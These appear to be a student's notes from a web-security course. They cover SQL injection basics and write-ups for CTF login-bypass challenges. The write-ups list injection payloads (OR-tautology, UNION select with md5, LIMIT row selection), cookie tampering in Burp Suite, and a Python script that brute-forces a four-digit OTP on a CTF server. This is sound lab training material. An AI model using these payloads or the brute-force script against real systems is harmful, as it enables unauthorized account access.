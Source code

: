 # SQL Injection

## Part 1 - Review
* Client   | Web - WAS - DB
* Web Browser
Front End (user / HTML,CSS,Javascript)  ----  Back end (server / ASP, JSP, PHP, Python)
* Web server : file
  - cookie = post-it
  - Session | SessionID
* Identification / Authentication
* Burp Suite - Web Proxy tool

## Part 2 - SQL Injection
* A code injection technique that might destroy your database
* SQL Example   
  - select * from member where id='normalitic'   =  All data
  - select id,pass from member where id='normalitic'   =  ID, Password

* SQL Injection Example
  - ID -> normaltic' #
  - '#' = comment
  - ID -> normaltic' or '1'='1
  - where id ='normaltic' or '1'='1' and pass = '99'
  - "and" function works first

## Part 3 - CTF
* CTF Resource
* https://book.hacktricks.xyz/pentesting-web/login-bypass
* https://portswigger.net/web-security/sql-injection/union-attacks
* https://www.geeksforgeeks.org/sql-limit-clause/
* https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#ByPassingLoginScreens

## Part 4 - Assignment
1. Review
2. CTF
a. Login Bypass 1
- Check whether the SQL injection working or not
- normaltic1' or '1'='1
- Assume the identification and authentication together

b. Login Bypass 2
- normaltic1' #
- Assume the identification and authentication together with hash? or not

c. Login Bypass 3
- Assume the identification and authentication separate because of not working of the last SQL injection
- I need to find where the password location. It can be used by UNION
- Check the UNION table how many tables is located in  (doldol' order by 1#)
- Use the UNION (SELECT a, b FROM table1 UNION SELECT c, d FROM table2)
- ID = ' union select 'normaltic3', '0000' #  // Password 0000

d. Login Bypass 4
- Assume the identification and authentication separate with hash
- Use the UNION and Hash (md5)
- ID = ' union select 'normaltic4', md5('0000') #  // Password 0000

e. Login Bypass 5
- Read burp suite and we can see the cookiee session and loginUser = doldol
- we can change the loginuser to normaltic5 on repeater and send it.

f. Secret Login
- The hint said to login as an admin, but they forgot the admin account.
- So, try the basic SQL Injection to check login logic condition
- Use the limit function of SQL Injection to bring specific row information
- ID = ' or '1'='1' limit 1,1 #

g. Get Admin
- At the Burpsuite, the login function uses a cookies session.
- Change the loginUser to Admin

h. PIN CODE Bypass
- Brute Force: Random input
- Page is changed sequence
- So, Change the step2.php to step3.php

i. Admin is Mine
- There is no clue for SQL injection, so it should use intercept loginUser
- The setting of proxy seeting changes to Intercept responses based on the following rules "check"
- Match type Request "Check"
- After that, follow the traffic and change the id to admin

j. Pin Code Crack
- Brute Force to use Python
```python
import requests

URL = "http://ctf.segfaulthub.com:1129/6/checkOTP.php"

for i in range(10000):
    res = requests.get(URL, params={'otpNum': i})
    if "Fail" not in res.text:
        print(f"otpNum = {i}")
        break
```
3. Web Development
- Login page
- Create Account
